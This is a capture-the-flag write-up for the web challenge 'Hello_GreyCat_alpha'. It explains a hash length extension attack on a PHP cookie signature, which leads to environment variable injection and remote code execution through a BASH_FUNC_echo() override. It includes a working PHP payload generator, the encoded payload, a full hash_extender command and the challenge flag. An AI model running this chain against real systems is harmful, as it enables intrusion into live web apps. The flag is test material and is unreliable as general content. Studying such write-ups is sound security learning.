 # Hello_GreyCat_alpha

### Challenge Details

a simple web which assign user a default name and store it into object, serialize it, sign it and store into cookie when they first visit the website. When the user visit the website again, the backend will verify the signature, deserialize the cookie and inject name into system variable called `name` and then call `system('echo $name')` to greet the player.

### Key Concepts

the signature is vulnerable to [hash length extension attack](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks):

```php
    function sign($str) {
        global $secret;
        return hash('sha256', $secret . $str);
    }
```

it allows you to forge a new stirng with extra bytes appended behind the original string, and derive the correct key. due to the Merkle-Damaged hash is being used. Attacker can construct another object string behind and achieve arbitrary environmental variable injection.

By abusing the environmental variable injection, player is able to achieve RCE by overwriting the echo with the BASH_FUNC extended variable. Refer to https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html (a very detailed Chinese blog post by [Phith0n](https://twitter.com/phithon_xg))  

### Solution

test.php:

```php
<?php

    class Greeting {
        private $info = array("name" => "GreyCat", "BASH_FUNC_echo()" => "() { id; }");

        public function __wakeup() {
            foreach ($this->info as $key => $value) {
                echo $key."->".$value."\n";
                putenv("{$key}={$value}");
            }
        }

        public function sayHi() {
            system('echo Hello, $name');
        }

    }

    $tmp = new Greeting;
    echo urlencode(serialize($tmp))."\n";

?>
```

```bash
$ php test.php
O%3A8%3A%22Greeting%22%3A1%3A%7Bs%3A14%3A%22%00Greeting%00info%22%3Ba%3A2%3A%7Bs%3A4%3A%22name%22%3Bs%3A7%3A%22GreyCat%22%3Bs%3A16%3A%22BASH_FUNC_echo%28%29%22%3Bs%3A10%3A%22%28%29+%7B+id%3B+%7D%22%3B%7D%7D
```


```bash
$ ./hash_extender -data-format=html -d O%3A8%3A%22Greeting%22%3A1%3A%7Bs%3A14%3A%22%00Greeting%00info%22%3Ba%3A1%3A%7Bs%3A4%3A%22name%22%3Bs%3A7%3A%22GreyCat%22%3B%7D%7D -s signature=ac404ceb2667d969d171a2f41dea1c110fd8020ad088237fe53ab293631f93ee -a %7cO%3A8%3A%22Greeting%22%3A1%3A%7Bs%3A14%3A%22%00Greeting%00info%22%3Ba%3A2%3A%7Bs%3A4%3A%22name%22%3Bs%3A7%3A%22GreyCat%22%3Bs%3A16%3A%22BASH_FUNC_echo%28%29%22%3Bs%3A10%3A%22%28%29+%7B+id%3B+%7D%22%3B%7D%7D --append-format=html -f sha256 -l 25 --out-data-format=html
```


### Learning Objectives

see above

### Flag

```
grey{1_c4n7_b3l13v3_3nv_v4r14bl3_15_7h15_d4n63r0u5_f7b22fd61f6f7196}
```


